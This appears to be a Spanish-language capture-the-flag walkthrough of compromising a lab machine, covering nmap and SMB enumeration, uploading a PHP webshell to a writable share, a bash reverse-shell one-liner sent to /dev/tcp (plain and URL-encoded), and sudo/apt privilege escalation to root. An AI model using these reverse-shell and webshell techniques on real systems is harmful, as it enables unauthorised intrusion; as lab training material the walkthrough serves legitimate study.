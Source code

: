 
Recomendacion: Antes de ponernos a trabajar debemos crear una carpeta que contenga otros directorios para tener un trabajo más ordenado 

-----------
# *Fase de Reconocimiento:* 
Primero escanearemos nuestra red para poder encontrar la ip de la maquina que intentaremos vulnerar, para eso podemos ocupar nuestro script creado anteriormente: ![[Pasted image 20240813123529.png]]
para verificar podemos ocupar también la busqueda con nmap.
![[Pasted image 20240813123727.png]]
siempre es bueno tener todo ratificado o al menos obtener información de más de una aplicación en caso de algún problema. 
Podemos entender de estos escaneos que la maquina a vulnerar esta en la ip 192.168.1.92.
El siguiente paso es aplicar el reconocimiento con nmap de los puertos esto se hace igual que como enseñe en el video anterior, debemos lanzar en 2 pasos el reconocimiento, el primero es para ver los puertos abiertos y el segun para ver los servicios y las versiones de estos servicios que ocupan los puertos.
```
$ nmap -sS --open --min-rate 5000 -n -Pn -vvv 192.168.1.92 -oG allPorts
```
en este caso podemos ver que estamos agregando el -oG allPorts para poder tener un archivo de salida con los puerto que se vayan encontrando. 
![[Pasted image 20240813125632.png]]
podemos ver en la imagen que tenemos los puertos 22-80-139-445 abiertos por lo que ahora podemos lanzar el reconocimiento de estos puertos con los servicios y versiones.
```
$ nmap -sCV -p22,80,139,445 192.168.1.92 -oN target
```
![[Pasted image 20240813125933.png]]
ahora podemos intentar ver que hay en la pagina web. 
![[Pasted image 20240813130106.png]]
con esto podemos ver que no hay nada raro en la pagina web, por lo que podemos ver si buscando con gobuster podemos llegar a algo o no.
![[Pasted image 20240813130747.png]]
se aplico una busqueda de contenido de web con gobuster, sin encontrar nada interesante.
![[Pasted image 20240813130849.png]]
al aplicarle un --add-slash quizas podriamos encontrar algo pero vemos que no hay nada por lo que desistimos de esta idea, pero tenemos un smb y tambien tenemos un ssh por lo que podemos intentar jugar con eso. 
En este caso partiremos haciendo una enumeración de el servicio SMB, que se realiza con el siguiente comando: 
```
$ smbclient -L /192.168.1.92 -N
```
![[Pasted image 20240813131411.png]]
Con esto podemos hacer el reconocimiento de algunos directorios, por lo ahora necesitamos ver cuales de estos directorios tiene acceso a escritura y lectura de archivos, por lo que eso debemos hacerlos con la aplicación de smbmap de la siguiente manera: 
```
$ smbmap -H /192.168.1.92
```
![[Pasted image 20240813132326.png]]
# *Fase de explotación:*
podemos ver que el directorio server tiene un acceso a lectura y escritura, por lo que ahora podemos entrar en este  mediante smbclient. 

```
$ smbclient //192.168.1.92/server
```
y entramos al directorio. 
![[Pasted image 20240813132505.png]]
cuando nos pida la contraseña no será necesario ingresar nada ya que esta abierto los accesos. 
como tenemos la oportunidad de leer y de escribir archivos dentro de este directorio podemos subir una webshell creandola en un archivo llamado cmd.php.
![[Pasted image 20240813133014.png]]
dentro del smbclient podemos ocupar el comando put para subir un archivo. 
![[Pasted image 20240813133138.png]]
en este caso ocupamos webshell.php
![[Pasted image 20240813135647.png]]
por lo que ahora podemos ver que tenemos una shell en el servidor.
Ahora podemos utilizar un oneliner para poder entrar a la maquina como el usuario www-data. `bash -c "bash -i >& /dev/tcp/192.168.1.89/443 0>&1" // los & se cambian por %26`

```
http://192.168.1.92/webshell.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.1.93/443%200%3E%261%22
```
obteniendo lo siguiente. 
![[Pasted image 20240813141050.png]]
![[Pasted image 20240813141105.png]]
ahora tenemos que hacer el tratamiento de la terminal con los siguientes comandos. 
script /dev/null -c bash
ctrl + z
 stty raw -echo; fg 
reset xterm 
export TERM=xterm 
export SHELL=bash
stty rows 52 columns 248
y quedaria la terminal de la siguiente manera: 
![[Pasted image 20240813141649.png]]
# *Fase de Escalado de privilegios*
Ahora tenemos que pasar a la fase de escalado de privilegios. 
![[Pasted image 20240813141815.png]]
si hacemos un sudo -l podemos ver lo de la imagen anterior, esto nos dice que la bash tiene permisos de correr comandos como el usuario s3cur4, por lo que podemos favorecernos de esto y poder atacar de la siguiente manera: 
![[Pasted image 20240813142122.png]]
con esto ya estamos como el usuario s3cur4, pero ahora necesitamos escalar a el usuario root, para poder tener el control total del acceso a la maquina. 
si nos vamos al home podemos obtener la primera flag del user.txt
![[Pasted image 20240813142307.png]]
si hacemos sudo -l de nuevo podemos ver que apt esta corriendo comandos como super usuario esto puede ser peligroso.
![[Pasted image 20240813142452.png]]
si vamos a la pagina https://gtfobins.github.io/gtfobins/apt/, podemos ver lo siguiente. 
![[Pasted image 20240813142549.png]]
con este one liner podemos obtener acceso al usuario root. 
![[Pasted image 20240813142934.png]]
luego de eso colocamos lo siguiente:
![[Pasted image 20240813143030.png]]
y estamos como usuario root.
![[Pasted image 20240813143059.png]]
ahora solo nos queda obtener la flag del usuario root. 
![[Pasted image 20240813143143.png]]
